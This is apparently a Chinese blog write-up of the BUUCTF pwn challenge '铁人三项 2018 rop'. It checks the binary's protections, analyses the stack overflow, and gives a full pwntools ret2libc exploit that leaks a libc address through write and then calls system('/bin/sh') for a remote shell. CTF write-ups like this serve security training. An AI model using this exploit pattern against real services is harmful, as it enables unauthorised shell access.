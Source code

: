```yaml
---
author: 
  name: Zephyr
title: 铁人三项(第五赛区) 2018 rop
date: 2022-3-22 19:20:03
permalink: /pages/2e1547494524d18b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# 铁人三项(第五赛区) 2018 rop

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/铁人三项_第五赛区_2018_rop/2018_rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  be_nice_to_people();
  vulnerable_function();
  return write(1, "Hello, World\n", 0xDu);
}
```

vulnerable_function函数及函数表如下

![铁人三项_第五赛区_2018_rop_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/%E9%93%81%E4%BA%BA%E4%B8%89%E9%A1%B9_%E7%AC%AC%E4%BA%94%E8%B5%9B%E5%8C%BA_2018_rop_1.png)

## 思路分析

1. 目前信息：
   - vulnerable_function函数内明显的栈溢出漏洞
   - No PIE
   - NX 保护开启
   - 无后门函数

2. 思路：
   - 本题是标准的ret2libc，应先泄漏libc及函数地址，再利用泄漏的信息构造payload,执行获取shell

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/铁人三项_第五赛区_2018_rop/2018_rop'
io = remote('node4.buuoj.cn', 28626)
# io = process(pwnfile)
elf = ELF(pwnfile)
libc_start_main_addr = elf.got['__libc_start_main']
write_addr = elf.plt['write']
vulnerable_function_addr = elf.symbols['vulnerable_function']
padding = 0x88+4
pop_3times_ret = 0x0804855d
payload = flat(['a'*padding, write_addr, pop_3times_ret, 1,libc_start_main_addr, 4, vulnerable_function_addr])
io.sendline(payload)
leak_libc_start_main_addr = u32(io.recv())
libc = LibcSearcher('__libc_start_main', leak_libc_start_main_addr)
libcbase = leak_libc_start_main_addr-libc.dump('__libc_start_main')
system_addr = libcbase+libc.dump('system')
bin_sh_addr = libcbase+libc.dump('str_bin_sh')
payload = flat(['a'*padding, system_addr, 0xdeadbeef, bin_sh_addr])
io.sendline(payload)
io.interactive()
```